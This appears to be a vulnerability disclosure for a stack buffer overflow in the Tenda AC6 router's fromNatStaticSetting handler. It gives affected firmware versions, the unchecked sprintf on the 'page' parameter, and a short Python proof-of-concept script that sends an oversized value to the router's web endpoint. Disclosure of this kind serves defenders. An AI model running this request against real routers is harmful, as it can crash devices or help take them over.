



# Information

**Vendor of the products:**   Tenda

**Vendor's website:** [首页_腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:  **GuoHengyu(2183056014@qq.com)

**Affected products:** AC6 

**Affected firmware version:**  <=V15.03.05.19

**Firmware download address:** [AC6V1.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102681)

# Overview

A buffer overflow vulnerability exists in the `fromNatStaticSetting` function of the Tenda AC6 router. By sending a crafted HTTP request with a malicious `page` parameter, a remote attacker can trigger a stack overflow that leads to a segmentation fault. This may result in denial-of-service (DoS) or potentially allow further exploitation.


# Vulnerability details

The Tenda AC6 V15.03.05.19 firmware has a buffer overflow vulnerability in the fromNatStaticSetting function.






A stack-based buffer overflow vulnerability exists in the Tenda AC6 router due to the use of `sprintf(s, "nat_static.asp?page=%s", v6);` without proper bounds checking on the `page` parameter. If a crafted `page` argument longer than 0x120 bytes is supplied, it will overflow the destination buffer `s`, potentially resulting in a segmentation fault. A remote attacker can exploit this issue to cause denial of service or potentially achieve arbitrary code execution.


# POC

```python
import requests


def execute_overflow(url, data):
    attack_params = {'page': data}
    server_response = requests.get(url, params=attack_params)
    server_response = requests.get(url, params=attack_params)

    

if __name__ == "__main__":
    target_url = "http://192.168.2.129/goform/NatStaticSetting"
    malicious_payload = b'a'*0x120

    execute_overflow(target_url, malicious_payload)
```



